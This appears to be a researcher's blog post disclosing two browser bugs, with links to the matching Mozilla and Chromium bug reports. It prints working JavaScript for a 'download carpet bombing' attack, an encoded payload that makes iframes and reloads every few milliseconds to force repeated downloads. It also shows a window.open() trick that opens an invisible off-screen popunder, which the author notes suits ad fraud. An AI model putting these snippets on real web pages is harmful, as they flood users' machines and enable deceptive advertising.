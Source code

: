 ```yaml
---
layout: post
title: Messing Around with Web Browsers (Part II)
---
```

*TL;DR: This would be a complementary entry for my previous writeup of the same title; here I'll be talking about an interesting download carpet bombing exploit alongside some functionality bug(s)....*

Fine, most probably you're not familiar with the term "Download Carpet Bombing", given that it's not such a common type of browser bugs---nor a severe one---so just to relate, that term is basicaly derived from the military term "Carpet Bombing" which is meant to indicate a type of bombing attack where a carpet of explosives is dropped in a progressive manner so that it inflicts damage in every part of a terget area! Whilst in terms of web security, it's meant to indicate a type of attack in which a massive amount of data/files is automatically dropped into a target machine. Take a look at "<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-2540" target="_blank">CVE-2008-2540</a>" for instance.
<br />

Now that you've got an idea on what this issue is all about, allow me to throw some ugly JS code onto your face:
{% highlight javascript linenos %}
(function {
    var payload = unescape('%3Cscript%3Evar%20dropper%3Ddocument.createElement(%22iframe%22)%3Bdropper.src%3D%27data%3Ax%2Fx%2Cfoo%27%3Bdocument.documentElement.appendChild(dropper)%3BsetInterval(function()%7Blocation.reload()%7D%2C%205)%3B%3C%2Fscript%3E');
    location.href = 'data:text/html,' + payload;
}());
{% endhighlight %}
***Caution***, I executed that code once, it was terrible! You've been warned. Anyways, the exploit is pretty much self-explanatory (simply, we first create an iframe element pointing to a downloadable resource so the browser initiates a new download then we do a reload over and over again), and we can even amplify its impact using dynamically created iframes! That said, let's move on to the next bug:

This one is just a functionality bug I stumbled upon while messing around a little with `window.open()` on Firefox; it was possible to open up an off-screen browser window (a.k.a popunder) by overflowing the positioning coordinates, just like this:
{% highlight javascript linenos %}
(function() {
    var el = document.createElement('a');
    el.onclick = function() {
        // Notice the value of the 'top' and 'left' params below?
        window.open('about:blank', 'invisible popup', 'top=100000000000, left=100000000000, width=1, height=1');
    };
    el.href = '#';
    el.innerHTML = 'Click Me';
    document.documentElement.appendChild(el);
}());
{% endhighlight %}
Obviously, such bug can come in handy for ad-fraud, where a little popunder window is exploited for popping up ads long after you stop viewing the offending webpage! Easy money, isn't it?!

***References:***<br />
[\*] <a href="https://bugzilla.mozilla.org/show_bug.cgi?id=978847" target="_blank">https://bugzilla.mozilla.org/show_bug.cgi?id=978847</a><br />
[\*] <a href="https://code.google.com/p/chromium/issues/detail?id=343824" target="_blank">https://code.google.com/p/chromium/issues/detail?id=343824</a> 

